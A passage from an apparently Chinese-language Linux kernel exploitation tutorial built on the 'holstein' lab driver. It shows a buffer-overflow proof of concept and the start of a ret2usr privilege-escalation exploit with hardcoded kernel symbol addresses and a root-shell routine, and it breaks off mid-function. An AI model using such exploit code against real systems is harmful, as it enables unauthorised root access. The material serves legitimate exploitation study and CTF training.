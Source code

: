 POC验证：

```c
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

int main() {
  int fd = open("/dev/holstein", O_RDWR);
  char buf[0x420];
  memset(buf, 'A', 0x400);
  char probe[] = "BBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF";
  memcpy(buf + 0x400, probe, strlen(probe));
  write(fd, buf, 0x400 + strlen(probe));
  close(fd);
  return 0;
}

```

这里补充一个相关基础知识：

这个write函数是Linux下glibc提供的一个标准系统调用接口，在调用这个接口是会根据前面所打开这个fd来查找对应的驱动文件中的对应处理函数。所以这些POC是可以在外部被编译成功的。

## ret2usr

对于没有任何防护的内核，直接采用用户态下ret2shellcode相似的方法就可以完成提权，exp为：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/holstein";
void spawn_shell();

int64_t global_fd = 0;

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t prepare_kernel_cred = 0xffffffff8106e240;
uint64_t commit_creds = 0xffffffff8106e390;
uint64_t user_rip = (uint64_t)spawn_shell;

void open_dev() {
  global_fd = open(VULN_DRV, O_RDWR);
  if (global_fd < 0) {
    printf("[!] failed to open %s\n", VULN_DRV);
    exit(-1);
  } else {
    printf("[+] successfully opened %s\n", VULN_DRV);
  }
}

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
```